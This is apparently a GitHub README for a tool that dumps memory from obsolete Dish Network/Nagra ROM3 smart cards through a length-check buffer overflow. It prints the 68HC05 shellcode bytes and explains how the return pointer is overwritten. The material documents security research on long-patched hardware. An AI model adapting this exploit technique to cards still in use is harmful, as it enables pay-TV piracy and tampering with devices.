 Howdy y'all,

This package is a tool for ancient Dish Network and Nagra smart cards.
On ROM3 Revision 272 and earlier, it uses a memory corruption exploit
to dump most regions of memory, such as the EEPROM.

It uses a standard USB smart card reader through the PCSC library,
using [go-card](https://github.com/sf1/go-card) as an abstraction
library.

A billion thanks are due to Chris Gerlinsky, who introduced me to this
bug over beers in Montréal.  Without his storytelling or his generous
sharing of documentation, I never would have gotten this working.

--Travis Goodspeeed

![Nipper is a buttlicker.](nipper.png)

## Vulnerable Cards

Dish Network patched this vulnerability more than twenty years ago, so
you'll need to find a card which either never got the patch or has already
been hacked to disable the fix.

The cards look like this, and running `nippertool` without parameters
should show a ROM of `DNASP003` and a revision shortly after 269.
DNASP002 cards are also vulnerable, but will require a different exploit.

![Nagra1 Smart Card](nagra1.jpg)

## Building

After installing PCSC and its daemon, just run `go build` to produce
an executable.  I only tested this on Linux, but it ought to also work
on Windows.

## Usage

```
dell% ./nippertool -help
Usage of ./nippertool:
  -dumpall string
        Downloads all of memory to a .bin file.  (Will fail.)
  -dumpeeprom string
        Downloads EEPROM from $E000 to a .bin file.
  -dumpram string
        Downloads SRAM from $0020 to a .bin file.
  -dumprand string
        Downloads RNG samples to a .bin file.
  -dumprom string
        Downloads User ROM from $4000 to a .bin file.
  -dumpsysrom string
        Downloads System ROM from $2000 to a .bin file. (Will fail.)
  -peek int
        Prints a block from a hex address. (default -1)
  -progress
        Interactive progress meter. (default true)
  -verbose
        Verbose output for debugging.
dell% ./nippertool 
Nippertool by Travis Goodspeed
A Tool for Antique Smart Cards

ROM:    DNASP003
Rev:    Rev369
Serial: 5613611
dell% 
```


## Debugging

Smart card readers like to hop between data rates.  You can run PCSCd
in the foreground with APDU logging to get a little extra visibility
into the process.

```
sudo killall pcscd
sudo pcscd --foreground -a
```

Remember that PCSCd requires the reply to have a proper header and
checksum.  If your reply is malformed, it might not appear in the log
at all.

## How the Exploit works

ROM3 Rev272 and earlier are missing a check on the length of a smart
card transaction.  Some tampered cards will report a later revision,
but do not include the patch that closes the vulnerability.

The transaction buffer is the very last 100 bytes of SRAM.
SRAM is mirrored, so it exists at `0x0020`, `0x0220`, `0x0420` and
many other locations.  When the buffer runs past the end of SRAM,
the data continues to overwrite the global variables, eventually
overwriting the buffer's index to then jump to overwriting the call
stack.  A return pointer callstack is then overwritten with `0x0060`,
the entry point of our shellcode.

My shellcode looks roughly like this, in 68HC05 machine language:

```
//This is the entry point for our shellcode.
0x9d, 0x9d, 0x9d, 0x9d, //NOPs

//Data begins at 0x19C+2.
0xAE, 0x21, //LD X, 0x20 ;
0x9d, 0x9d, //NOPs
//loop:
0xD6, 0xFF, 0xFF, //LD A, (target+1,X)  //Load the byte from the source buffer.
0xD7, 0x01, 0xA1, //STA (0x019C+1,X)  //Store the byte to the data buffer.
0x5A,       //DEC X
0x2A, 0xF6, //JRPL loop

//NOPs to keep alignment.
0x9d,

//Sends some data from the IO buffer.
0xa6, 0x93, //LDA #$93, response code
0xae, 0x40, //LDX #$17, length in data bytes
0xCD, 0x75, 0x7F, //JMP RESPONDAX to send the response.

//These three bytes will be clobbered.  Don't rely on them.
0x00, 0x00, 0x00,
//These bytes set the entry point of 0x0060
0x00, 0x00, 0x00, 0x60,
```

I haven't yet managed to patch this shellcode for clean continuation,
so instead I reboot the card between transactions.

My attack string is based upon the famous Nipper Clauz exploit, which
you can find in Echostar v. NDS as [Plaintiff's Exhibit
511A](http://www.murdochspirates.com/Pirates/Echostar/court/exhibits/TEX0511A.pdf).
Where the original shellcode disabled interrupts to dump all of EEPROM
out the serial port, my shellcode returns 32 bytes from an arbitrary
start address in a properly formatted PCSC transaction.

Two more exploits for this bug are available in the Headend Project
Report, [Plaintiff's Exhibit
98](http://www.murdochspirates.com/Pirates/Echostar/court/exhibits/TEX0098.pdf).
This internal report by David Mordinson at NDS is excellent writing,
and you'd do well to print and study it.  I chose to fork the Nipper
Clauz exploit instead of those in the Headend Report because I wanted
to re-use the ROM's own transmit function.  The Headend exploits place
their shellcode at the beginning of this buffer, preventing its reuse
for transmission.


## Limitations on System ROM Access

My tool can dump registers, SRAM, User ROM, and EEPROM, but the
ST16CF54 has a memory firewall that prevents code in SRAM from reading
code in the System ROM at 0x2000.  Code in System ROM can read itself,
and I'm able to call that code, but the 68HC05 machine language and
its 8-bit Accumulator and Index registers do not easily express ROP
gadgets that would fetch an arbitrary 16-bit pointer.

## Port to ROM2

This exploit is for ROM3 revisions up to 272.  ROM2 cards contain the
same bug, but the ROMs are quite different and shellcode would need to
be unique to each ROM.

## Random Numbers

The ST16CF54 contains a 16-bit hardware random number generator.
Dumping a few megabytes of these RNG values shows that the values are
not very random, most likely an LFSR run at a slightly different clock
rate from the CPU.

I don't see much of use of this in Nagra's ROM, but it's possible that
it could be used to exploit another smart card based upon the same
ST16 chip.

